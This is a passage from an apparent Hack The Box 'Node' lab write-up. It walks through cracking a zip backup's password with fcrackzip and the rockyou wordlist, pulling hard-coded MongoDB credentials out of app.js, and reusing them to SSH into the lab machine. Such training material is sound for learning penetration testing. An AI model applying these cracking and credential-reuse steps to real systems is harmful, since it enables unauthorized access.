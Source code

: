 Now view the file type.

```text
root@kali:~/Desktop/htb/node# file myplace-decoded.backup 
myplace-decoded.backup: Zip archive data, at least v1.0 to extract
```

It’s a zip file! Let’s try and decompress it.

```text
root@kali:~/Desktop/htb/node# unzip myplace-decoded.backup
Archive:  myplace-decoded.backup
[myplace-decoded.backup] var/www/myplace/package-lock.json password:
```

It requires a password. Run a password cracker on the file.

```text
fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt myplace-decoded.backup
```

* **-u:** try to decompress the first file by calling unzip with the guessed password
* **-D:** select dictionary mode
* **-p:** password file

It cracks the password!

```text
PASSWORD FOUND!!!!: pw == magicword
```

Unzip the file using the above password.

```text
unzip -P magicword myplace-decoded.backup
```

Now it’s a matter of going through the files to see if there are hard coded credentials, exploitable vulnerabilities, use of vulnerable dependencies, etc.

While reviewing the files, you’ll see hard coded mongodb credentials in the app.js file.

```text
const url         = 'mongodb://mark:5AYRft73VtFpc84k@localhost:27017/myplace?authMechanism=DEFAULT&authSource=myplace';
const backup_key  = '45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474';
```

We found a username ‘mark’ and a password ‘5AYRft73VtFpc84k’ to connect to mongodb locally. We also see a backup\_key which we’re not sure where it’s used, but we’ll make note of it.

## Initial Foothold <a id="c543"></a>

Most user’s reuse passwords, so let’s use the password we found to SSH into mark’s account.

```text
ssh mark@10.10.10.58
```

It worked! Let’s locate the user.txt flag and view it’s contents.
